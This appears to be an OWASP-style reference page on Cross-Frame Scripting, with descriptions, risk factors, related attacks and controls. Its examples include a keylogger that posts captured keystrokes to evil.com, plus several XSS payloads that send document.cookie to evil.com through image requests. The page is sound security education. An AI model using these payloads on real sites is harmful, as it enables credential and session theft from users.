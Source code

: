 ```yaml
---

layout: col-sidebar
title: Cross Frame Scripting
author: 
contributors: 
permalink: /attacks/Cross_Frame_Scripting
tags: attack, Cross Frame Scripting
auto-migrated: 1

---
```


{% include writers.html %}

## Description

Cross-Frame Scripting (XFS) is an attack that combines malicious
JavaScript with an iframe that loads a legitimate page in an effort to
steal data from an unsuspecting user. This attack is usually only
successful when combined with social engineering. An example would
consist of an attacker convincing the user to navigate to a web page the
attacker controls. The attacker's page then loads malicious JavaScript
and an HTML iframe pointing to a legitimate site. Once the user enters
credentials into the legitimate site within the iframe, the malicious
JavaScript steals the keystrokes.

## Risk Factors

The standard browser security model allows JavaScript from one web page
to access the content of other pages that have been loaded in different
browser windows or frames as long as those other pages have been loaded
from the same-origin server or domain. It does not allow access to pages
that have been loaded from different servers or domains (see MSDN
article [About Cross-Frame Scripting and
Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)).
However, specific bugs in this security model exist in specific
browsers, allowing an attacker to access some data in pages loaded from
different servers or domains. The most well-known such bug affects IE,
which leaks keyboard events across HTML framesets (see iDefense Labs
advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction
Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)).
This bug could allow, for example, an attacker to steal the login
credentials of a browser user as he or she tries to type them into the
login form of a third-party web page.

## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like he or she is actually visiting example.com The
attacker registers some javascript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

    <!-- http://evil.com/example.com-login.html -->
    <head>
    <script>
    // array of user keystrokes
    var keystrokes = [];
    // event listener which captures user keystrokes
    document.onkeypress = function() {
        keystrokes.push(window.event.keyCode);
    }
    // function which reports keytrokes back to evil.com every second
    setInterval(function() {
        if (keystrokes.length) {
            var xhr = newXHR();
            xhr.open("POST", "http://evil.com/k");
            xhr.send(keystrokes.join("+"));
        }
        keystrokes = [];
    }, 1000);
    // function which creates an ajax request object
    function newXHR() {
        if (window.XMLHttpRequest)
            return new XMLHttpRequest();
        return new ActiveXObject("MSXML2.XMLHTTP.3.0");
    }
    </script>
    </head>
    <!-- re-focusing to this frameset tricks browser into leaking events -->
    <frameset onload="this.focus()" onblur="this.focus()">
    <!-- frame which embeds example.com login page -->
    <frame src="http://example.com/login.html">
    </frameset>

### XSS Attack Using Frames

To exploit a [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some javascript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

    <iframe style="position:absolute;top:-9999px" src="http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>

The iframe is hidden off-screen, so the browser user won't have any idea
that he or she just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

    <meta http-eqiv="refresh" content="1;url=http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>">

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that he
or she just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that he or she is visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some javascript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

    http://example.com/flawed-page.html?=<iframe src="↵
        javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>

Again, this attack is effectively the same as a conventional XSS attack;
the attacker simply uses the src attribute of the injected iframe
element as a vehicle to run some javascript code in the attacked page.

## Related Threat Agents

  - An XFS attack generally is carried out by a malicious
    [:Category:Internet
    attacker](:Category:Internet_attacker "wikilink").
  - An XFS attack exploiting a browser bug which leaks events across
    frames is similar to an attack which uses conventional key-logging
    software.

## Related Attacks

  - An attacker might use a hidden frame to carry out a [Cross-site
    Scripting (XSS)](xss) attack.
  - An attacker might use a hidden frame to carry out a [Cross-Site
    Request Forgery
    (CSRF)](Cross-Site_Request_Forgery_\(CSRF\) "wikilink") attack.
  - An attacker might use a visible frame to carry out a
    [Clickjacking](Clickjacking "wikilink") attack.
  - An XFS attack exploiting a browser bug which leaks events across
    frames is a form of a [Phishing](Phishing "wikilink") attack (the
    attacker lures the user into typing-in sensitive information into a
    frame containing a legitimate third-party page).

## Related Vulnerabilities

  - XFS attacks exploit specific browser bugs.

## Related Controls

  - XFS attacks may denied by preventing the third-party web page from
    being framed; the techniques used to do this are the same as those
    used for [Clickjacking Protection for Java
    EE](Clickjacking_Protection_for_Java_EE "wikilink").

## References

  - MSDN article [About Cross-Frame Scripting and
    Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)
  - iDefense Labs advisory [Microsoft Internet Explorer Cross Frame
    Scripting Restriction
    Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)
